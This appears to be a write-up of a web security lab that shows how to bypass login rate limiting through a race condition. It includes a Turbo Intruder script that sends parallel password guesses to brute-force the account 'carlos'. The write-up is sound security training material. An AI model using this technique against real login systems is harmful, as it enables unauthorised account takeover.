





# Bypassing rate limits via race conditions
# Objective
This lab's login mechanism uses rate limiting to defend against brute-force attacks. However, this can be bypassed due to a race condition.\
To solve the lab:
1. Work out how to exploit the race condition to bypass the rate limit.
2. Successfully brute-force the password for the user carlos.
3. Log in and access the admin panel.
4. Delete the user carlos.

You can log in to your account with the following credentials: wiener:peter. 

# Solution
## Analysis
After 3 incorrent login attempts account is blocked for certain number of second.
||
|:--:| 
| *Login page prevents brute-force attempts by rate limiting* |


## Exploitation
### Brute-force via race conditions
Attacker can try to exploit race conditions to bypass rate limiting. 

||
|:--:| 
| *Sending login requests in parallel - rate limiting bypass* |
||
| *Sending login requests in parallel - none of the requests was blocked* |


Turbo intruder configuration:
```
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )
    

    # for word in open('/home/barszczyk/Tools/Wordlists/passwords.txt'):
    #     engine.queue(target.req, word.rstrip(), gate='1')

    passwords = wordlists.clipboard
    
    for password in passwords:
        engine.queue(target.req, password, gate='1')
    
    # Once every request has been queued invoke engine.openGate() to send all requests in the given gate simultaneously
    engine.openGate('1')

def handleResponse(req, interesting):
    table.add(req)
```

Maxium 20 parallel requests can be used to speed up brute-force. All requests above 20 were denied - `HTTP 400 Bad Request` - `Invalid csrf token`.

||
|:--:| 
| *Turbo intruder configuration* |
||
| *Result* |

